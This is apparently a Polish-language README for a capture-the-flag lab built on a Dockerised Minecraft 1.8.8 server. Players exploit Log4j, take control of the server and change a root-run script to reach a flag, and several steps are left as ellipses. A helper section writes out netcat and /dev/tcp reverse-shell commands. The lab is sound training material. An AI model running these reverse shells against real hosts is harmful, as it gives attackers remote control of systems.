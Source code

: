 # minecraft-ctf

- próbujesz uruchomić sklauncher (jak nie masz javy, to se pobierz i zainstaluj)
- dockera też potrzebujesz (duh)
- odpalasz docer compose
- to ci uruchamia 3 kontenery
- dwa są tak jakby 'twoje', marshaller i httpcode. 'twoje' oznacza, że w topologii realnej są procesami, które ty kontrolujesz i stawiasz na swoim kompie, tutaj są w dockerach, żeby usprawnić całość,
- twoje zadanie jest następujące: zdobyć flagę wykorzystując podatność Log4j i kilka innych rzeczy :DD
- w tym celu:
  1. Uruchom Minecraft:
     1. Odpalasz SKLauncher, wybierasz tryb ofline,
     2. Klikasz + po prawej od "Installations Manager",
     3. Wybierasz release 1.8.8, SAVE, potem PLAY,
  2. Uruchom server mc (przy okazji inne kontenery):
     1. W repo komenda: `docker-compose up` albo `docker compose up`, uruchomi ci wszystkie kontenery, m.in. server minecrafta,
  3. 
  4. masz za zadanie wykorzystać podatność Log4j,
  5. kod hostowany na httpcode musisz przygotować i skompilować (kompilacja się dzieje podczas budowania kontenera),
  6. kod musi ci umożliwić kontrole na serverze
  7.  musisz znaleźć skrypt bashowy wykonywany z uprawnieniami roota, który możesz zmodyfikować,
  8.  zmodyfikować go tak, by ...
  9.  ...
  10. teraz masz dostęp do pliku z flagą,
  11. wyślij screen flagi na upela ;D
  12. udanej zabawy!



Przydatne rzeczy:

Reverse shell:
```sh
# https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

# odpalasz nasluchiwanie tcp na porcie `5000` na swoim kompie
nc -l 5000

# na kompie ofiary na którym możesz uruchomić komendę robisz
# (musisz wejść w basha - czyli wpisz `bash` w terminal)
# (w zsh /dev/tcp/[ip]/[port] nie działa )
bash -i >& /dev/tcp/[ip mojego kompa]/5000 0>&1
# albo to (ale mi nie działało)
nc [ip mojego kompa] 5000 –e /bin/bash


# Możesz to przetestować robiąc w jednym terminalu
nc -l 5000
# a w drugim
bash -i >& /dev/tcp/127.0.0.1/5000 0>&1
```

Zbudowanie i uruchomienie kontenera:
```bash
# budowanie obrazu:
docker build . -t nazwa-obrazu
docker build . -t nazwa-obrazu:wersja

# uruchomienie obrazu (wtedy mamy uruchomiony kontener)
docker run -p 25565:25565 -ti 
```



Credits:
https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
https://github.com/mbechler/marshalsec
https://lipanski.com/posts/smallest-docker-image-static-website

